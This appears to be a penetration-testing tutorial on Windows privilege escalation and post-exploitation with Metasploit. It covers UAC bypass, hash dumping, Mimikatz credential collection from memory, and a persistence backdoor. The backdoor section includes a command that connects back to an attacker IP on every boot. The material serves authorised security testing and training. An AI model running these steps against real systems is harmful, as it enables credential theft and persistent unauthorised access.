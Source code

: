 When performing privilege escalation on Windows 7 and newer operating systems, it is necessary to take into account a security mechanism that could create some difficulties for us.

The UAC (User Account Control), which allows an administrator user to perform administrative tasks during a standard user session. If the UAC is enabled, it will be impossible for us to perform a privilege escalation without taking other actions first.

**Privilege escalation with enabled UAC**

We should start our privilege escalation by checking whether the UAC is enabled or not. The Metasploit module that allows us to perform this task is called "win_privs".

There is a Metasploit module called "bypass UAC". Keep in mind that this module has a good chance of success only if the UAC is set to the default level and not to the maximum one.

**Credentials Hashdump**

A hash is a unique string generated from a certain password and based on a cryptographic algorithm. If the hash is not strong enough, it is possible to follow a reverse engineering process to recover the initial password.

Let's suppose we have an active session with administrative privileges, and we type the "hashdump" command. We can recover the hash of the users "Administrator", "user1", and "guest", for example. You can eventually try a password recovery ("password cracking") starting from these hashes.

**Local exploit suggester**

If the "getsystem" command is not effective, we can rely on the Metasploit module, which enumerates the machine in search of some exploits with high success chance. We always need to launch it with an active meterpreter session.

**Using the Mimikatz module**

The "Mimikatz" tool in Metasploit will allow us to collect the credentials of the machine to which we are logged. We should rely on a established meterpreter session and have the System privileges.

First of all, the module in Metasploit should be loaded with the "load mimikatz" command. Then we need to enter the "wdigest" command. The password has been hashed directly from the system memory and we have obtained the user credentials.

**Installing a backdoor on a target system**

We can install a "backdoor" on the target system in order to make the meterpreter session more stable. This also allows us to return to the target system whenever we deem it appropriate (remember that you need to remove it once you have completed the tasks requested by the client).

First of all, we should have the meterpreter session already configured with the "SYSTEM" or "Administrator" privileges.

The backdoor that we will use will be installed on a registry key of the target machine with the possibility of starting it every time the machine is booted.

This module is called "Persistence", and these are the options available:

Meterpreter > run persistence -h

meterpreter > run persistence -X -p 8081 -r 192.168.1.133 -i 5

Each option is defined more precisely as follows:

-   The "-X" option starts the backdoor each time the system is booted.
-   The "-p 8081" option is the port on which the attacking system will listen.
-   The "-r" option specifies the IP address of the attacking machine.
-   The "-i 5" option is the interval in seconds between each connection attempt.
